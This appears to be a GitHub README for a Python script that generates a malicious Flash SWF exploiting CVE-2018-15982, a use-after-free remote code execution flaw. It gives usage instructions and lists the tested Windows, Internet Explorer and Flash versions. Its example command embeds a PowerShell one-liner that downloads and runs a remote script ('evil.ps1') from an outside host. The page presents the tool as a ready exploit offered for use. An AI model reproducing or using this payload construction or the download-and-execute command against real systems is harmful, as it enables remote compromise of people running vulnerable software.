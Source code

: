 # Adobe Flash CVE-2018-15982

This script dynamically creates a swf payload for CVE-2018-15982, which is based off of the PoC from https://github.com/smgorelik/Windows-RCE-exploits.

The vulnerability is a use-after-free flaw enabling arbitrary code-execution in Flash.  More information can be found in the links below.

* https://threatpost.com/adobe-patches-zero-day-vulnerability-in-flash-player/139629/
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-15982



Usage:

```python create_swf.py <command> <output file name>```

Example Usage:

```python create_swf.py "powershell.exe IEX (iwr 'http://192.168.56.101/evil.ps1')" downloadtest.swf```
  


Tested on: 
* Windows 10 Enterprise 10.0.17134, Internet Explorer 11.285.17134.0
* Adobe Flash Player 31.0.0.153


## Example


Create payload and confirm execution:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/create-and-confirm.png)


Executing malicious swf:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/exec.png)

